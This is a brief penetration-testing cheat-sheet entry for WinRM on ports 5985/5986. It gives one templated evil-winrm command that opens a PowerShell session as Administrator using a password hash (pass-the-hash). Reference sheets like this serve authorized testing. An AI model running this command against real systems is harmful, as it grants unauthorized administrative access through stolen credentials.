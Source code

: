 # winrm

% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986

## evil-winrm - Establish a Powershell session with Pass-The-Hash
```
evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
```
